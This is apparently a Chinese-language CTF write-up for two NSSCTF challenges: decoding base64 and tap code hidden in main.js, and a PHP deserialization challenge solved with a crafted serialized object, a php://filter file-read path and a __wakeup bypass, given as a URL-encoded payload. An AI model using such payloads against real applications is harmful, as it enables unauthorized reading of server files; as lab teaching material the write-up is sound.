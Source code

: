 <br/>

### js_sign

~~这个也该放到misc去吧（~~

通过题目名就知道要找js，翻阅源码得到mian.js

![截图](https://nssctf.wdf.ink/img/yxy/a366b924102388e631aeb281efdf9a6e.png)

有个疑似base64的东西，先解了看看

![截图](https://nssctf.wdf.ink/img/yxy/eaef069a5fabcc2f8ed8727a6c476e39.png)

tapcode？敲击码！可以基本断定那一串数字是敲击码了

![截图](https://nssctf.wdf.ink/img/yxy/43c69237a81446bb80ccdffdd2377d43.png)

33 43 43 13 44 21 54 34 45 21 24 33 14 21 31 11 22 12 54 44 11 35 13 34 14 15

不知道为啥在线解码不靠谱，只得手动摸咯

![截图](https://nssctf.wdf.ink/img/yxy/b8cf059b41fa2b15704fea2ba632c12e.png)

解码可得：NSSCTF{youfindflagbytapcode}

<br/>

### ez_ez_unserialize

又是反序列化，具体知识点参考前文 **ez_1zpop**

`$_REQUEST['x']` 表示传入一个名为 `x` 的参数，方法不限

考点：==反序列化== ==文件包含== 

- `highlight_file` 可触发文件包含漏洞，对应伪协议

构造exp：

```php
<?php
class X
{
    public $x;
}

$a = new X;
$a->x="php://filter/convert.base64-encode/resource=fllllllag.php";
echo serialize($a);
?>
```

绕过__wakeup，再urlencode一下得到payload：`O%3A1%3A%22X%22%3A7%3A%7Bs%3A1%3A%22x%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3Dfllllllag.php%22%3B%7D`

![截图](https://nssctf.wdf.ink/img/yxy/d47ccda5a09fa517d0bb4947d3b1831b.png)
